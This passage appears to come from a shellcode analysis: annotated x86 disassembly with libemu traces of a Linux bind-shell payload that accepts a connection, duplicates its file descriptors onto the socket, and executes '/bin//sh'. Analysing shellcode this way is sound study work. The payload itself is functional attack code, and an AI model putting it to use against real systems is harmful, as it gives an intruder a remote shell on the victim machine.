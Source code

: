 ```nasm	
00000029  CD80              int 0x80        ; make the call
 
; accept:
; int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
;
; libemu:
;   int accept (
;       int sockfd = 14;
;       sockaddr_in * addr = 0x00000000 =>
;           none;
;       int addrlen = 0x00000010 =>
;           none;
;   )
0000002B  43                inc ebx         ; accept() -ecx,ptr to args
0000002C  B066              mov al,0x66     ; socketcall()
0000002E  CD80              int 0x80        ; make the call
 
; dup2:
; int dup2(int oldfd, int newfd);
;
; libemu:
;   int dup2 (
;       int oldfd = 19;
;       int newfd = 0;
;   )
00000030  93                xchg eax,ebx    ; exchange ebx with eax
00000031  59                pop ecx         ; counter
LBL1:
00000032  6A3F              push byte +0x3f ; dup2()
00000034  58                pop eax         ; dup2()
00000035  CD80              int 0x80        ; make the call
00000037  49                dec ecx         ; sub 1 from counter
00000038  79F8              jns LBL1        ; loop until zero
 
; execve
; int execve(const char *filename, char *const argv[],
;   char *const envp[]);
;
; libemu:
;   int execve (
;       const char * dateiname = 0x00416fb2 =>
;           = "/bin//sh";
;       const char * argv[] = [
;           = 0x00416faa =>
;               = 0x00416fb2 =>
;                   = "/bin//sh";
;           = 0x00000000 =>
;               none;
;       ];
;       const char * envp[] = 0x00000000 =>
;           none;
;   )
0000003A  682F2F7368        push dword 0x68732f2f ; hs//
0000003F  682F62696E        push dword 0x6e69622f ; nib/
00000044  89E3              mov ebx,esp     ; ebx, addr of /bin//sh
00000046  50                push eax        ; null
00000047  53                push ebx        ; ptr to /bin//sh
00000048  89E1              mov ecx,esp     ; ecx, ptr to args
0000004A  B00B              mov al,0xb      ; execve()
0000004C  CD80              int 0x80        ; make the call
```